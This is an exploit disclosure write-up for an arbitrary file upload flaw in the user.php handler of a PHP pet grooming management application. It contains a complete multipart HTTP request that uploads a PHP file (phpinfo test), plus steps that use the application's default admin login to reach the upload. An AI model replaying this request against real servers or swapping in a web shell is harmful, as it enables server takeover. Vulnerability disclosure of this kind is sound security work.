 

# Pet grooming management software  - 'user.php' Arbitrary File Upload

#### Exploit Title: Pet grooming management software - Arbitrary File Upload

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: [https://www.sourcecodester.com](https://www.sourcecodester.com/)

#### Software Link:https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html

#### Version: Pet grooming management software 1.0

#### Tested on: Windows 10, Apache ,Mysql

#### Description

The pet grooming management software has a vulnerability in uploading arbitrary files. In the 'user.php'  file, due to insufficient filtering of file suffixes, attackers can exploit this vulnerability to gain server privileges by uploading malicious files.

#### Payload used:

```POST /login.php HTTP/1.1
POST /admin/operation/user.php HTTP/1.1
Host: 192.168.67.28:8021
Accept-Encoding: gzip, deflate
Origin: http://192.168.67.28:8021
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynrYRiaBMmUAHonyv
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.67.28:8021/admin/manage_website.php
Cookie: PHPSESSID=nn7i1gq9g3c5789ch9hgs6nogg
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 3656

------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="btn_save"

1
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="role_id"

1
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="old_website_image"

Pets_Logo.png
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="website_image"; filename="test.php"
Content-Type: application/octet-stream

<?php phpinfo(); ?>
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="old_favicon"

favicon_pet.png
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="favicon"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="old_qr"

dumm_qr(1).png
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="qr"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="footer"

Pet Grooming Billing Software
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="sign"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="btn_web"


------WebKitFormBoundarynrYRiaBMmUAHonyv--


```

#### Proof of Concept

1、Log in to the system using the default password mdkhairnar92@gmail.com: admin

2、Request the admin/operation/user.php interface to modify the website_image to the PHP malicious file we are about to upload.

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/uploadpayloaduser.png)

4、After sending the request packet, the file can be accessed on the page, and the PHP file has been parsed, displaying information related to PHPINfo.

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/uploadlocationuser.png)

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/uploadpageuser.png)

5、Source code related to vulnerabilities.

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/code-user.png)
